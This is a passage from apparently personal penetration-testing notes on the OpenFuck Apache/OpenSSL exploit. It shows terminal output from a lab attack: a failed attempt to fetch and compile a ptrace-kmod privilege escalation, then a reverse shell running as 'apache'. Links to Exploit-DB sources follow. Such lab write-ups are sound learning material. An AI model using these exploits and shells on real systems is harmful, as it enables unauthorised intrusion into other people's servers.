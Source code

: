 ```bash

Unable to establish SSL connection.

Unable to establish SSL connection.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c`: No such file or directory
bash: ./exploit: No such file or directory
bash-2.05$            # <---- rev shell
bash-2.05$ whoami     # <---- our test command 
whoami                
apache                # <---- output on target machine
```

> [!My previous notes (linked in text)]
> - [Metasploit](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/tools/metasploit.md)
> - [trans2open](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/vulnerabilities/trans2.md) 
> - [buffer-overflow](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/TTPs/exploitation/buffer-overflow.md)
> - [OpenFuck](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/vulnerabilities/openfuck.md)
> - [gcc](https://github.com/TrshPuppy/obsidian-notes/tree/main/computers/linux/gcc.md) 

> [!Resources]
> - [Exploit-DB](https://www.exploit-db.com)
> - [Exploit DB Gitlab: OpenFuck.c 21671](https://gitlab.com/exploit-database/exploitdb/-/blob/main/exploits/unix/remote/21671.c?ref_type=heads)
> - [Exploit DB: OpenFuckv2.c 47080](https://www.exploit-db.com/exploits/47080)
> - [Exploit DB GitLab: OpenFuckv2.c 47080](https://gitlab.com/exploit-database/exploitdb/-/blob/main/exploits/unix/remote/47080.c?ref_type=heads)
> - [Offensive Security](https://offsec.com/)

